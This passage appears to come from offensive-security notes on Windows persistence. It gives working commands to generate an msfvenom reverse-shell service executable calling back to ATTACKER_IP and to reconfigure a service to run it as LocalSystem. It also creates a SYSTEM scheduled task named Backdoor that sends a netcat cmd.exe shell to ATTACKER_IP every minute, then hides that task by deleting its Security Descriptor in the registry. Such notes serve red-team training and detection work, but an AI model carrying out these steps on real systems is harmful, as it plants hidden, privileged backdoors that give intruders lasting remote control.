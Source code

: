 Create malicious service executable:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe-service -o revshell-svc.exe
```

```
sc.exe stop <service_name> 
sc.exe config <service_name> binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
sc.exe start <service_name>
```

## Abusing Scheduled Tasks

### Creating Backdoor Scheduled Tasks
Creating scheduled task may allow attacker to establish persistance.

Create malicious sheduled task:
```
schtasks /create /sc minute /mo 1 /tn Backdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP ATTACKER_PORT" /ru SYSTEM
```

Check if our task was successfully created:
```
schtasks /query /tn <task_name>
```

### Making Scheduled Task Invisible
To hide scheduled task, attacker can make it invisible to any user in the system by deleting its Security Descriptor (`SD`). The Security Descriptor is simply an `ACL`. Deleting the SD is equivalent to disallowing all users' access to the scheduled task, including administrators.


Delete `SD` entry via `regedit`:
```
c:\tools\pstools\PsExec64.exe -s -i regedit
    HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\<task_name>
```


|![](Images/image-4.png)|
|:--:| 
| *Deletion of Security Descriptor* |
